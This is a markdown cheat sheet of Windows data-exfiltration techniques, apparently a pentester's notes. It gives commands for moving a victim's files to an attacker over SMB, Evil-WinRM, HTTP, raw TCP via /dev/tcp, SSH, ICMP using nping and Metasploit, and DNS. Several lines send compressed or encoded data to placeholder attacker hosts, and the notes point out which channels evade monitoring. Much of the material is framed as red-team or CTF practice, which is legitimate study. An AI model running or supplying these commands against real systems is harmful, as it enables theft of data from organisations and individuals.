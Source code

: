 ```yaml
---
title: Windows data exfiltrator notes
---
```


- [1. Simple file transfer](#1-simple-file-transfer)
  - [1.1. SMB (two ways)](#11-smb-two-ways)
  - [1.2. Evil-WinRM (two ways)](#12-evil-winrm-two-ways)
  - [1.3. HTTP (attacker -\> victim)](#13-http-attacker---victim)
- [2. TCP socket](#2-tcp-socket)
- [3. SSH protocol](#3-ssh-protocol)
- [4. HTTP(S) protocol](#4-https-protocol)
- [5. ICMP](#5-icmp)
- [6. DNS](#6-dns)

## 1. Simple file transfer

[Great post about Windows file transfers for hackers](https://juggernaut-sec.com/windows-file-transfers-for-hackers/).

### 1.1. SMB (two ways)
Using local SMB server (running on the attacker's OS) an attacker is able transfer files in both ways:

```bash
# Run SMB server
impacket-smbserver -smb2support -username <username> -password <password> <share-name> <share-path>
```

```powershell
# Transfer file from the victim to the attacker
copy <local-file> \\<attacker-ip>\<share>\

# Transfer file from the attacker to the victim
copy \\<attacker-ip>\<share>\<file> <local-path>
```

### 1.2. Evil-WinRM (two ways)
The `evil-winrm` tool is able to perform file transfer out of the box if only session is established.

```bash
> download <file>
> send <file>
```

### 1.3. HTTP (attacker -> victim)
Attacker:

```bash
python -m http.server <PORT>
```

Victim:

```powershell
wget http://<ATTACKER_IP>:<PORT>/file.exe -O file.exe
# Or
Invoke-WebRequest -URI <URL> -OutFile <FILE>
```

## 2. TCP socket
This kind of exfiltration is not recommended in a well-secured environments. Non-standard TCP protocol can be detected easily.

Listener (attacker):

```bash
# Receive data and save to file
nc -lvnp <PORT> > /path/to/file

# Decode and decompress data
dd conv=ascii if=<FILE> | base64 -d > file.tar
tar xvf file.tar
```

Sender (victim):

```bash
# Send compressed and encoded data
tar zcf - <DIR> | base64 | dd conv=ebcdic > /dev/tcp/<IP>/<PORT>
```

## 3. SSH protocol
SSH establishes a secure channel because all transmitted data is encrypted. It's not possible to sniff the unencrypted content.

Sender (victim):

```bash
# Send a file via ssh
tar cf - <DIR> | ssh <HOST> "cd /tmp/; tar xpf -"
```

## 4. HTTP(S) protocol
Exfiltration data through the HTTP protocol is one of the best options because it is hard to distinguish between legitimate and malicious HTTP traffic. Additionally, a POST request data is not stored in log files, cache or any other history.

## 5. ICMP
ICMP packet has optional `data` field where the sensitive data can be stored and transmitted.

Listener (attacker): `Metasploit` framework has built-in module to capture malicious ICMP sequence.

```bash
> use auxiliary/server/icmp_exfil
# Omit outgoing ICMP packets
> set BPF_FILTER icmp and not src <ATTACKER_IP>
> set INTERFACE eth0
> run
```

Sender (victim): we can use the `nping` tool which part of the Nmap package. The ICMP data sequence for the Nmap listener is initialized sending the `BOF<filename>` string.

```bash
# Initialize the ICMP sequence
sudo nping --icmp -c 1 <ATTACKER_IP> --data-string "BOFfile.txt"
# Send data
sudo nping --icmp -c 1 <ATTACKER_IP> --data-string "<DATA>"
# End of the sequence
sudo nping --icmp -c 1 <ATTACKER_IP> --data-string "EOF"
```

## 6. DNS
DNS is not a transport protocol and it's basis of the entire internet so it's not usually monitored. Fully Qualified Domain Name (FQDN) can be at most 255 characters long (including `.` separators). The subdomain part must not exceed 63 characters. The trick is to transfer data using the subdomain part to the controlled (malicious) DNS server.

On the malicious DNS server capture any incoming UDP/53 packet:

```bash
tcpdump -i eth0 udp port 53 -v
```
